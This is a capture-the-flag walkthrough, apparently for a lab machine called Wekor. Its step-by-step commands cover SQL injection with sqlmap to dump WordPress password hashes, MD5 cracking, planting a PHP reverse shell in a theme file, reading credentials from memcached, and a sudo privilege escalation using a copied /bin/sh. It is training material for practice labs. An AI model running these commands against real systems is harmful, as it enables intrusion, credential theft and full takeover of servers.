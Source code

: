 sudo nmap -sV -sC -Pn 10.17.70.209

echo "10.17.70.209 wekor.thm" | sudo tee -a /etc/hosts

`Check http://wekor.thm/robots.txt file`

User-agent: *
Disallow: /workshop/
Disallow: /root/
Disallow: /lol/
Disallow: /agent/
Disallow: /feed
Disallow: /crawler
Disallow: /boot
Disallow: /comingreallysoon
Disallow: /interesting


Check all urls and found hint into this http://wekor.thm/comingreallysoon

http://wekor.thm/it-next/

Now find Subdomains

ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.wekor.thm" -u http://wekor.thm -fs 23 -mc 200 -t 60

Found a subdomain http://site.wekor.thm/

echo "10.17.70.209 site.wekor.thm" | sudo tee -a /etc/hosts

Let's FUZZ this subdomain

ffuf -w /usr/share/wordlists/fuzz/fuzz.txt -u http://site.wekor.thm/FUZZ -fs 23 -t 60 -mc 200,301,403

I got a dir that is wordpress site http://site.wekor.thm/wordpress/

wpscan --url http://site.wekor.thm/wordpress/ -e ap,u

Nothing is there.

After many tring I found a sql error on coupon input in this page http://wekor.thm/it-next/it_cart.php

sqli payload ' or 1 = 1 -- -

Now hit the coupon's input with sql payload and intercept it with burpsuite. After that Copy full coupon input code like below and scan with sqlmap tool

"coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon"

sudo sqlmap -u "http://wekor.thm/it-next/it_cart.php" --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --schema --batch --threads=3

sudo sqlmap -u "http://wekor.thm/it-next/it_cart.php" --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" -D wordpress -T wp_users --dump --batch --threads=3

I got username and password hash

Find out hash type

hashid password_hash

It's (MD5). Save hash into any `.txt` file and run below hashcat command using rockyou wordlist

hashcat -a 0 -m 400 pass.txt /usr/share/wordlists/rockyou.txt

john hash cracking command
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt pass.txt

Cracked password is here.

Go to wp default login page location and use above cracked credentials
http://site.wekor.thm/wordpress/wp-login.php

Now download any php revers shell. I used https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

ip addr

Copy tun0 ip from terminal and edit downloaded php-reverse-shell file and replace IP with you've copied tun0 ip also change port as you want 2323


Go to theme editor option click `I understand`  and replace all `404.php` code with edited `php-reverse-shell` file and save it. Now hit below url on your browser.
http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/404.php

nc -lvnp 2323

python3 -c 'import pty; pty.spawn("/bin/bash")'

ps aux | grep memca

echo "get username" | nc -vn -w 1 127.0.0.1 11211
Orka

echo "get password" | nc -vn -w 1 127.0.0.1 11211
Hope you got password

cd /home/Orka
cat user.txt
user Flag 

sudo -l

mv Desktop m

mkdir Desktop

cp /bin/sh ./Desktop/bitcoin

sudo /home/Orka/Desktop/bitcoin

whoami

cd ../../

cd root

cat root.txt

root Flag 

